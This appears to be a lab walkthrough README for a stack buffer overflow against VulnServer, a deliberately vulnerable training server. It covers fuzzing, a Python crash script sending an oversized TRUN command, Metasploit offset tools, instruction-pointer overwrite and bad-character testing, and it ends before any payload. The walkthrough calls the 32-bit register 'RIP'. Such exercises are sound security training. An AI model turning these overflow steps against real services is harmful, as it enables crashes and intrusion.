 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command below < HELP
```sh
nc -nv 192.168.242.130 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```
Close your CMD in Windows and Open the Vulnserver.exe file in the Immunity Debugger.
When it loads up Press the Play button 

Then Go to your Kali Terminal and type this command below 
```sh
python2 exploit3.py
```
After running Press Ctrl + C 

Now Check your Immunity Debugger , You will see crash has happened like this 

![alt text](exp3_immunity.png)

We need to Identify Offset write command below in kali
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```
Input the pattern exactly as given in `exploit4.py` file.

Restart the Immunity Debugger by pressing `<<` this button and play it again.

Run your python file similar as you did for exploit3.py.Now again press Ctrl + C and check for crash in your Immunity debugger.

Note Down the RIP value we need it for calculating the Offset

![alt text](exp4_immunity.png)

In Kali write this command with value of RIP address 
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5000 -q 386F4337
```
Offset = 2003
We now input 2003 - A , 4 - B , rest - C to check if B go into RIP

Write the next exploit as per `exploit5.py` , Restart your Immunity debugger - play it and Run your exploit5 script in kali . Now again check your immunity debugger  

We can see that RIP register is Overwritten with B's and we successfully hijacked it !

![alt text](exp5_immunity.png)

In your Immunity Debugger get the byte array for Bad character as per this image below 

![alt text](bad_char.png)

Put the Bad Characters in your script as per  `exploit6_bad.py` . restart the Immunity Debugger and run the script

You will notice that that "\x00" is bad character so we remove it , restart Immunity and run again ( I have already removed "\x00" in  `exploit6_bad.py` of repo)
It works Fine.




